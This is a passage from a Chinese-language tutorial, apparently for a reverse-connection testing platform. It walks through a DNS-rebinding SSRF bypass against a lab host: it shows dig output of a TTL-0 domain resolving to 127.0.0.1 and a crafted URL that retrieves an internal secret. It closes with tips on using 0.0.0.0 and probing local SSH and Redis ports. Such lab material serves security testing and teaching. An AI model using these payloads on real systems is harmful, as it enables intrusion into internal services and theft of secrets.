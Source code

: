 ```bash
;; MSG SIZE  rcvd: 78



$dig p-04f887-2kua.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> p-04f887-2kua.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57001
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;p-04f887-2kua.revc.xyz.		IN	A

;; ANSWER SECTION:
p-04f887-2kua.revc.xyz.	0	IN	A	127.0.0.1

;; Query time: 49 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:29:29 CST 2019
;; MSG SIZE  rcvd: 78
```

可以看出来第一次和第二次的解析结果是不一样的，将 DNS 服务器更换为 `8.8.8.8` 可以得到相同的结果。

因为 dns rebinding 配置的两次访问是有顺序的，而且我们已经都访问过了，如果再次去解析这个域名，反连平台就只能返回默认的解析结果了，这时候可以通过再次点击保存按钮来重置访问顺序。

构造 `http://vuln.net:8000/?url=http://p-04f887-2kua.revc.xyz:8000/api/internal/secret` 的 url，我们又获取到了 secret。

![](../assets/scenario/reverse_server_ssrf/15679099800999.jpg)


![](../assets/scenario/reverse_server_ssrf/15679099947838.jpg)

在 DNS 解析历史记录中，我们看到了两个 Google 的 IP，也就是说明 Python 的后端去解析了两次，因为 TTL=0，dns 服务器每次都要回源重新解析，这样第一次和第二次访问结果不一致也就绕过了检查。

## 备注

 - 使用 `0.0.0.0` 代替 `127.0.0.1` 是另外一种绕过思路
 - 利用上面的思路访问本地的 22 和 6379 还可以发现 SSH 和 Redis 服务，也是一个重要的信息。



